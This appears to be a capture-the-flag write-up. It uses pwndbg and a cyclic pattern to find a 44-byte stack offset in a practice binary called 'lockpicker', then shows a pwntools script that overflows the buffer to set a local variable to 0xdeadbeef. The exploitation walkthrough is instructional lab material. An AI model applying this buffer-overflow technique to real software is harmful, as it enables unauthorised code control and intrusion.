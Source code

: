 We find the comparison at `0x0000000000401199 <+67>:	cmp    DWORD PTR [rbp-0x4],0xdeadbeef` so we then set a breakpoint at that address and use cyclic to crash the binary

```shell
pwndbg> cyclic 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
pwndbg> b *0x0000000000401199
Note: breakpoint 1 also set at pc 0x401199.
Breakpoint 2 at 0x401199
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/shellcode/lockpicker 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
I heard you are the best lock picker in the town ? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Breakpoint 1, 0x0000000000401199 in do_input ()
```

Let's check the values in `rbp-4` and use cyclic to get the offset

```shell
pwndbg> x/s $rbp-4
0x7fffffffe63c:	"aaaaga"
pwndbg> cyclic -l aaaagaaa
Finding cyclic pattern of 8 bytes: b'aaaagaaa' (hex: 0x6161616167616161)
Found at offset 44
```

Let's create a python script to overwrite the `rbp-4` register with our desired value in the little endian byte order

```python
from pwn import *
from struct import *

# Start program
io = process('./lockpicker')

padding = 44

rbp_4 = pack("<I", 0xdeadbeef)

payload = flat(
    asm('nop') * padding,
    rbp_4
)

write('payload', payload)
# Send string to overflow buffer
io.sendlineafter(b'?', payload)

# Receive output
print(io.recvall().decode())
```
